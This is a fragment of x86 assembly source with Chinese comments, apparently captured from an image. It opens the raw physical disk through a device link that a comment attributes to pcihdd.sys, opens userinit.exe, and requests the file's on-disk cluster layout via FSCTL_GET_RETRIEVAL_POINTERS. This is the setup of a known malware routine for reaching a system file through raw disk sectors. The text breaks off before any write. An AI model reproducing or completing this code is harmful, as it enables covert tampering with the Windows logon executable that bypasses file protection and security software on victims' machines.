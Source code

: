 LOCAL lpBuffer
LOCAL nNumberOfBytesToWrite
LOCAL hDevice
LOCAL lDistanceToMove
LOCAL HighOffset
LOCAL dwLowPartofLcn
LOCAL dwHighPartofLcn
LOCAL StartSectorC
LOCAL hFile
LOCAL PhysicalBuff[512]:BYTE
LOCAL Buffer[512]:BYTE
LOCAL OutBuffer[272]:BYTE
LOCAL dwRet
LOCAL DistanceToMoveHigh:DWORD
LOCAL InBuffer[8]:BYTE
LOCAL hObject

pusha
push  0    ; hTemplateFile
push  0    ; dwFlagsAndAttributes
push  3    ; dwCreationDisposition
push  0    ; lpSecurityAttributes
push  0    ; dwShareMode
push  80000000h  ; dwDesiredAccess
push  offset FileName  ; "\\.\PhysicalHardDisk0" 是pcihdd.sys创建的符号链接
call  CreateFileA
cmp  eax, 0FFFFFFFFh
jz  CreateFileFailed
mov  hDevice, eax

push  0    ; hTemplateFile
push  20000000h  ; dwFlagsAndAttributes
push  3    ; dwCreationDisposition
push  0    ; lpSecurityAttributes
push  3    ; dwShareMode
push  80000000h  ; dwDesiredAccess
push  lpFileName  ; 打开userinit.exe
call  CreateFileA
cmp  eax, 0FFFFFFFFh
jz  CreateUserInitFileFailed
mov  hObject, eax

       push    8
       lea     eax,InBuffer
       push    eax
       call    RtlZeroMemory

push  110h            ;初始化
lea  eax, OutBuffer
push  eax
call  RtlZeroMemory

push  0    ; lpOverlapped
lea  eax, DistanceToMoveHigh
push  eax    ; lpBytesReturned
push  110h    ; nOutBufferSize
lea  eax, OutBuffer
push  eax    ; lpOutBuffer
push  8    ; nInBufferSize
lea  eax, InBuffer
push  eax    ; lpInBuffer
push  90073h    ; dwIoControlCode = FSCTL_GET_RETRIEVAL_POINTERS
push  hObject   ; hDevice
call  DeviceIoControl ;通过FSCTL_GET_RETRIEVAL_POINTERS获取userinit文件数据的分布信息
or  eax, eax
jz  DeviceIoControlFailed
